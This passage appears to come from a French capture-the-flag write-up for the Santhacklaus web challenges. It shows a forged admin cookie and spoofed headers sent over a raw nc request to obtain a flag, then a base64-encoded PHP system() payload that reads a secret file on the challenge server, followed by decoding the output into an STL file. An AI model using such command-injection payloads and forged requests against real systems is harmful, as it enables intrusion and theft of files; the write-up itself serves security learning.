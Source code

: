 ```bash
# on hash "admin"
$ echo -n "admin" | shasum -a 256
8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
```

* on remplace avec ce nouveau hash, et on a :
`Are you the real administrator ?
Remember: You need to come from the "russian.deep-web.org" website with the "Black Hat Browser" navigator !`

```bash
$ nc https://srht.santhacklaus.xyz 443
GET / HTTP/1.1
Host: srht.santhacklaus.xyz
Referer: russian.deep-web.org # et non From: !!
User-Agent: Black Hat Browser
Cookie: connexion=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a91
```

`IMTLD{B3c4u5e_sQL_iNj3cti0n5_4r3_0v3r4tt3D}`

---
## 200 3D Industry (2/2)
---

> Now that the vulnerability has been proven, the CEO is worried about some sensitive files he uploads in the administration section of the website. Let's finish this audit properly !
> Lien: https://3d-industry.santhacklaus.xyz

* voir 3D Industry (1/2)
* car même chose mais dans le dossier `admin`

```bash
echo -n "<?php echo system(\"cat admin/uploads/s3cr37-d0cum3n7.txt\"); ?>" | base64
PD9waHAgZWNobyBzeXN0ZW0oImNhdCBhZG1pbi91cGxvYWRzL3MzY3IzNy1kMGN1bTNuNy50eHQiKTsgPz4=
```
* on récupére toutes les lignes depuis le html, qu'on met dans un fichier

```bash
$ wc -c temp.txt
  675429 temp.txt

# supprimer doublons
$ cat temp.txt| uniq > temp2.txt

# bon nombre de lignes
$ wc -c temp2.txt
  337716 temp2.txt

# c'est de la base 64
$ cat temp2.txt | base64 -D > temp3.txt

# type du fichier
file temp3.txt
temp3.txt: data ????

$ head -n1 temp3.txt
SketchUp STL com.sketchup.SketchUp.2018

$ mv temp3.txt temp3.stl
```
